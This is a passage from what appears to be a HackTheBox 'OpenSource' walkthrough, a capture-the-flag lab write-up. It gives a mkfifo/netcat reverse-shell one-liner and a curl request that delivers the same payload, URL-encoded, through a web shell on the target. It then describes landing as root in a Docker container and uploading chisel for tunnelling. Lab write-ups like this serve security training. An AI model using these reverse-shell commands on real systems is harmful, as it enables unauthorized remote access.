 
Then, use the payload to get a reverse shell:

```bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.67 5454 >/tmp/f

# Use this request to get the revshell

curl http://10.10.11.164/shell?k=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E10%2E14%2E2%205454%20%3E%2Ftmp%2Ff

```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/6_0_in.png" width="90%"/>
</p>

We knew that the app was in docker so we land as root within the docker. There is not much within, so I remembered the port 3000 on the host, so let's use _chisel_ to check what's there.


Upload [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.7) with the upload utility in the app:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/7_1_chisel_up.png" width="90%"/>
</p>
